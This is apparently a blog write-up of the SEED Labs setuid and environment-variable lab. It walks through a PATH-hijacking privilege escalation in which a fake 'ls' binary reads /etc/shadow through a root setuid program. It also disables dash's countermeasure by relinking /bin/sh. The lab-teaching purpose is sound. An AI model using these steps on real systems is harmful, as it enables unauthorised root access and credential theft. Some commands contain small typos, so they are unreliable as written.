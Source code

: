 ```yaml
---
layout: post
title: Environment Variables & SetUID
excerpt: Environment variables are variables that store information, such as configuration settings or system paths, that can be accessed by applications and scripts. Environment variables affect the behavior of programs and scripts that use them. Environment variables are usually stored in a key-value pair format, where the variable name represents the key and its corresponding value represents the data associated with that variable.
categories: [setuid, setgid]
---
```


<details>
<summary><b>SeedLabs: Environment Variable and Set-UID Lab</b></summary>
<div markdown="1">

- [Environment Variable and Set-UID Lab](https://seedsecuritylabs.org/Labs_20.04/Files/Environment_Variable_and_SetUID/Environment_Variable_and_SetUID.pdf)

___
</div></details>


### Environment Variables

Environment variables are variables that store information, such as configuration settings or system paths, that can be accessed by applications and scripts. Environment variables affect the behavior of programs and scripts that use them. Environment variables are usually stored in a key-value pair format, where the variable name represents the key and its corresponding value represents the data associated with that variable.

Environment variables can be set, modified, or removed by the user, by scripts, or by applications. To view the environmental variables that are already set, one can use `printenv` or `printenv [KEY]` i.e., `printenv SHELL`

To set an environment variable:

- `export KEY:"VALUE"`

To unset an environment variable:

- `unset KEY`

When a parent process creates a child process through `fork()`, the environment variables of the parent process is copied to the child process. This means that every child process will by default have the same environment variables that the parent has.

When `system()` is used to execute a command in a script or program, it doesn't directly execute the program, but rather calls `/bin/sh` to execute the command; however, when execve() is used to execute a command in a script or program, it directly executes a command. The implication of `system()` not directly executing the command is that any command provided cannot be effectively sanitized but gets sent through to `bin/sh` to execute.

<br>

### SetUID

Setuid, short for "set user ID upon execution," is a permission that allows a user to temporarily adopt the privileges of the owner of a file. This means that when a setuid is enabled for an executable file, anyone who executes that file does so as though he or she is the file's owner.

Setuid, if not implemented correctly, can pose security risks. Malicious users can exploit such programs to execute arbitrary code with elevated privileges.

From the previous section, we learned that some programs create new processes using `system()` and that these commands executed by `system()` are not executed directly but through a call to `/bin/sh`. This means that when setuid programs invoke a new process by calling `system()`, bad things can happen.

When a relative path is given, the program searches through the "PATHS" provided in the environment variable. By modifying the "PATH" in the environment variable and appending the path where our malicious program is to the beginning of the PATH variable, we can trick the program to run our malicious program with root permissions rather than the legitimate program.

<details>
  <Summary>
    Note:
  </Summary>
  <br>
   "/bin/sh" is a symbolic link pointing to "/bin/dash". Dash has a countermeasure that prevents itself from being executed in a Set-UID process. To see how our attack works without such a countermeasure, we will link "/bin/sh" to "/bin/sh" to "/bin/zsh" which does not have such a countermeasure. (ln -sf /bin/zsh /bin/sh)
</details>

When SetUID programs run, they create privileged processes during execution and destroy those privileged processes after execution. If some of the priviledged processes are not cleaned up, this could lead to capability leakage, whereby these privileged processes may still be accessible by the non-privileged processes. This is undesirable, as such leaked capabilities can be exploited by malicious users.


#### Create setuid program

1. The program that we would create and set the SetUID permission on is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("ls");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o mysetuid mysetuid.c`

3. change the owner to root and set setuid permission

   - sudo chown root mysetuid

   -  sudo chmod 4755 mysetuid


#### Create malicious program

In order to take advantage of the vulnerability present in the setuid program, we will create a malicious program named ls and export the path of the malicious program to set the environment variable.

1. The malicious program that we would create is shown below:

   ```
    #include <stdlib.h>
    
    int main()
    {
      system("usr/bin/cat /etc/shadow");
      return 0;
    }
    ```

2. Compile the program

   `gcc -o malicious_app malicious_app`

3. backup the path, copy the malicious program to /tmp/bin/ and export the path

   - `printenv PATH > path_env.bk`
  
   - `mkdir /tmp/bin && cp ./malicious_app /tmp/bin/ls`
  
   - `export PATH=/tmp/bin:$PATH`


#### Run the setuid program

***PATH environment variable***
![path-env](https://github.com/iukadike/blog/assets/58455326/dcab81cf-1f32-407c-b22b-215f1ef16c05)

***`./mysetuid`***
![setuid](https://github.com/iukadike/blog/assets/58455326/4967ca5b-d476-4ed3-b115-fed4e2e24758)

<br>

### LD PRELOAD

An executable program usually relies on external libraries to function as expected. These external libraries can either be linked to the executable program statically or dynamically.

When these libraries are statically linked, the library code becomes part of the executable itself and is linked directly into the executable at compile time. This means that the program does not require any external libraries during execution. The size of the executable is usually larger. A disadvantage, though, is that if the libraries are updated, the executable needs to be recompiled with the updated library.

On the other hand, when these libraries are dynamically linked, a reference to the functions in the library is included in the executable at compile time and linked to the executable during runtime. The size of the executable is usually smaller. Since only a reference to the functions in the library is included in the executable, when a library is updated, the executable does not need to be recompiled as it will be linked to the updated library during runtime. A disadvantage, though, is that a malicious user can supply a malicious library that the executable will link to during execution.

The LD_PRELOAD environment variable allows a user to specify an additional shared library that should be loaded before all other libraries. The effect of this is that it allows overriding function calls that are made by other libraries.


<br>

Thanks for reading.


